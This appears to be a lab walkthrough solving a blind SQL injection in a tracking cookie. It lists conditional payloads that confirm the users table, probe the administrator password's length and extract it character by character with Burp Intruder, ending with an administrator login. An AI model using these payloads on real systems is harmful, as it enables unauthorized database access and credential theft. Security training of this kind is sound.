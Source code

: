 1. Suppose the track id is xyz.  Use Burp Suite to modify the Cookie: ``` TrackingId=xyz' AND '1'='1 ```. The SQL query now become ``` SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xyz' AND '1' ='1' ```. The response contains the message "Welcome back"

2. Use Burp Suite to modify the Cookie: ``` TrackingId=xyz' AND '1'='2 ```. The SQL query now become ``` SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xyz' AND '1' ='2' ```. The response doesn't contain the message "Welcome back"

3. ``` ' AND (SELECT 'a' from users LIMIT 1)='a ```. The response contains the message "Welcome back" => the table users exists.

4. ``` ' AND (SELECT 'a' from users WHERE username = 'administrator')='a ```. The response contains the message "Welcome back" => there is an username called administrator.

5. 
``` ' AND (SELECT 'a' from users WHERE username = 'administrator'AND LENGTH(password)>1)='a ``` => True
``` ' AND (SELECT 'a' from users WHERE username = 'administrator'AND LENGTH(password)>5)='a ``` => True
``` ' AND (SELECT 'a' from users WHERE username = 'administrator'AND LENGTH(password)>10)='a ``` => True
``` ' AND (SELECT 'a' from users WHERE username = 'administrator'AND LENGTH(password)>15)='a ``` => True
``` ' AND (SELECT 'a' from users WHERE username = 'administrator'AND LENGTH(password)>20)='a ``` => False
``` ' AND (SELECT 'a' from users WHERE username = 'administrator'AND LENGTH(password)>17)='a ``` => True
``` ' AND (SELECT 'a' from users WHERE username = 'administrator'AND LENGTH(password)>19)='a ``` => True
=> password's length = 20

7. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

8. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
In the Positions tab, change the value of the cookie to: TrackingId=LUZ8q4FguGIeDsvB' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a. This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

9. Place payload markers in necessary positions (the first 1 number and the final a character) where we will iterate through all different possibilities to find the correct character at each position of 20 position => Finally, we will be able to get the whole password. Change the value of the cookie to: TrackingId=LUZ8q4FguGIeDsvB' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), §1§, 1) = '§a§

10. For payload set 1 (iterate over all possible positions from 1 to 20 of the 20 characters password), go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" fill in the list of all numbers from 1 - 20. For payload set 2 (iterate over all possible characters at a position of the 20-chracters password), go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

11. To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".
Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

12. Review the attack results to find the correct value of the character at each position. Click on the 'Welcome back' column header to sort it results and see all rows which have tick in this column, which means that in these row, the character in payload 2 is the correct character of the password in the position corresponding to the value of payload 1. Gather all of that information to get the correct password.

13. Login with username 'administrator' and the correct password.

14. Better solution: Instead of iterating over every character, you could perform a binary search of the character space.